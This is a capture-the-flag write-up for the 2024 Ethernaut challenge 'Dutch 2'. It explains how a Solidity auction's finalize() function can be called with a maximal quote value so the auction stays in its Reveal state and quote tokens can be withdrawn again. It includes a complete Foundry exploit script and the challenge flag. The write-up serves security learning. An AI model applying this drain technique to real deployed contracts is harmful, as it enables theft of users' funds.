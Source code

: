 ```yaml
---
title: Blockchain - Dutch 2
description: 2024 | Ethernaut CTF | hard-solidity
tags:
    - smart contract
    - solidity
---
```


## Description

Looks like someone is auctioning a lot of tokens, but they are encrypted. Might be a good idea to bid...

> [Challenge Files](https://github.com/OpenZeppelin/ctf-2024/blob/0527d0e1ea6d729faf753057af6f24cc89584b4e/dutch-2/challenge/project/src/Challenge.sol)

## Solution

- There are some quote tokens and base tokens locked in the auction contract. The objective of the challenge is to drain the quote tokens in the auction contract
- Any user can create an auction. The auction has several stages and the `checkState` modifier checks the current state of an auction based on the block timestamp and specific variables

    ```js
    modifier checkState(States state, Auction storage auction) {
        if (block.timestamp < auction.time.start) {
            if (state != States.Created) revert();
        } else if (block.timestamp < auction.time.end) {
            if (state != States.Accepting) revert();
        } else if (auction.data.quoteLowest != type(uint128).max) {
            if (state != States.Final) revert();
        } else if (block.timestamp <= auction.time.end + 24 hours) {
            if (state != States.Reveal) revert();
        } else if (block.timestamp > auction.time.end + 24 hours) {
            if (state != States.Void) revert();
        } else {
            revert();
        }
        _;
    }
    ```

- The auction creator can take out the bidders' quote tokens via finalize(). Meanwhile, the finalize() function can set the quoteLowest of an auction, which will affect the determination of the auction state, to a user-provided value. Invoke finalize() function with `quote` parameter set to `type(uint128).max` allows sellers to keep the auction in `Reveal` stage and withdraw quote tokens again

    ```js
    function finalize(uint256 id, uint256[] memory indices, uint128 base, uint128 quote)
        public
        checkState(States.Reveal, auctions[id])
    {
        ...
        auction.data.baseLowest = base;
        auction.data.quoteLowest = quote;
        ...
        if (data.totalBase != data.baseFilled) {
            auction.parameters.totalBase = data.baseFilled;
            ERC20(auction.parameters.tokenBase).safeTransfer(auction.data.seller, data.totalBase - data.baseFilled);
        }

        ERC20(auction.parameters.tokenQuote).safeTransfer(auction.data.seller, quote.mulDivDown(data.baseFilled, base));
    }
    ```

- To exploit the vulnerability, the quote amount and base amount of a bid should be chosen carefully. If the auction has only one bid, `amountQuote * type(uint128).max / amountBase` needs to be equal to `quote * type(uint128).max / base`. To keep it simple, `base` can be also set to `type(uint128).max`, and the bidder quote amount should be equal to the base amount

    ```js
    for (uint256 i; i < indices.length; i++) {
        uint256 index = indices[i];
        BidEncrypted storage bid = auction.bids[index];

        uint256 mapIndex = index / 256;
        uint256 bitMap = bidSeen[mapIndex];
        uint256 bitIndex = 1 << (index % 256);
        if (bitIndex == 1 & bitMap) revert();
        bidSeen[mapIndex] = bitMap | bitIndex;

        Math.Point memory commonPoint = Math.mul(sellerPrivateKey, bid.publicKey);
        if (commonPoint.y == 1 && commonPoint.x == 1) continue;

        bytes32 decrypted = Math.decrypt(commonPoint, bid.encrypted);
        if (genCommitment(decrypted) != bid.commit) continue;

        uint128 amountBase = uint128(uint256(decrypted >> 128));

        uint256 quotePerBase = bid.amountQuote.mulDivDown(type(uint128).max, amountBase);
        if (quotePerBase >= data.prevQuoteBase) {
            if (quotePerBase == data.prevQuoteBase) {
                if (data.prevIndex > index) revert();
            } else {
                revert();
            }
        }

        if (quotePerBase < data.resQuoteBase) continue;

        if (data.totalBase == data.baseFilled) continue;

        data.prevIndex = index;
        data.prevQuoteBase = quotePerBase;
        // @note baseFilled should be less than or equal to totalBase
        if (amountBase + data.baseFilled > data.totalBase) {
            amountBase = data.totalBase - data.baseFilled;
        }

        data.baseFilled += amountBase;
        bid.baseAmountFilled = amountBase;
    }

    if (quote.mulDivDown(type(uint128).max, base) != data.prevQuoteBase) revert();

    for (uint256 i; i < bidSeen.length - 1; i++) {
        if (bidSeen[i] != type(uint256).max) revert();
    }

    if (((1 << (indices.length % 256)) - 1) != bidSeen[bidSeen.length - 1]) revert();

    if (data.baseFilled > data.totalBase) {
        revert();
    }
    ```

### Exploitation

- If no new blocks are mined, `block.timestamp` will not be updated in the local simulation
- Use `--slow` flag to send transactions one by one, and prevent local simulation for the `second()` function from reverting via onchain simulation

```js
contract Bidder {
    function bid(AuctionManager auction, uint id, ERC20 token) public returns (uint idx) {
        token.approve(address(auction), 1e10);
        (Math.Point memory pub, bytes32 encrypt) = Math.encrypt(Math.Point(1, 2), 1, bytes32(uint(1e10 << 128)));
        // base, equal to the amount quote tokens remaining in the contract
        idx = auction.addBid(
            id,
            1e10,   // quoteAmount, equal to baseAmount
            auction.genCommitment(
                Math.decrypt(Math.mul(1, pub), encrypt)
            ),
            pub,
            encrypt,
            new bytes32[](0)
        );
    }
}

contract Solve is Script {

    uint256 immutable playerPrivateKey = vm.envUint("PLAYER");
    Challenge challenge = Challenge(vm.envAddress("CHALLENGE"));
    AuctionManager auction = challenge.auction();
    ERC20 baseToken = challenge.baseToken();
    ERC20 quoteToken = challenge.quoteToken();

    function first() public {
        vm.startBroadcast(playerPrivateKey);
        baseToken.approve(address(auction), 1e10);

        auction.create(
            AuctionManager.AuctionParameters(
                address(baseToken),
                address(quoteToken),
                0,  // resQuoteBase
                1e10,  // totalBase
                0,  // minBid
                bytes32(0),  // merkle
                Math.Point(1, 2)  // publicKey
            ),
            AuctionManager.Time(
                uint32(block.timestamp),  // start
                uint32(block.timestamp + 1 minutes),  // end
                uint32(block.timestamp + 2 minutes),  // startVesting
                uint32(block.timestamp + 3 minutes),  // endVesting
                0   // cliff
            )
        );
        
        Bidder bidder = new Bidder();
        quoteToken.transfer(address(bidder), 1e10);
        bidder.bid(auction, 1, quoteToken);
        vm.stopBroadcast();
    }

    function second() public {
        vm.startBroadcast(playerPrivateKey);
        uint256[] memory indices = new uint256[](1);
        indices[0] = 0;

        auction.show(1, 1, abi.encode(
            indices,
            type(uint128).max,
            type(uint128).max
        ));
        auction.finalize(1, indices, type(uint128).max, type(uint128).max);

        require(challenge.isSolved());
        vm.stopBroadcast();
    }
}
```

### Flag

> OZCTF{sT4T3_g0T_T0o_C0nFuS3D_f0R_tH3_4uCt10n}

## References

- [Slow mode and skip simulation for script don't work · Issue #5776 · foundry-rs/foundry](https://github.com/foundry-rs/foundry/issues/5776#issuecomment-1867287499)